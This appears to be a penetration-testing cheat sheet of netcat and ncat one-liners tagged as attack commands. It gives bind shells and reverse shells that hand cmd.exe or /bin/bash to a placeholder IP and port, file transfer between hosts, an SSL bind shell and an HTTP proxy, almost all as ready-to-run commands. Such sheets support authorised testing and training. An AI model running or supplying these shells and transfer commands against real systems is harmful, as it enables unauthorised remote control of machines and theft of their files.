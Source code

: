 # netcat

% nc, netcat

#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 
## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
#plateform/windows 
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
#plateform/linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
#plateform/windows  #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e cmd.exe
```

## nc reverse shell linux
#plateform/linux #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfert file - receiver
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nlvp <port> > <incomming_file>
```

## nc transfert file - sender
#plateform/linux #cat/ATTACK/FILE_TRANSFERT 
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```

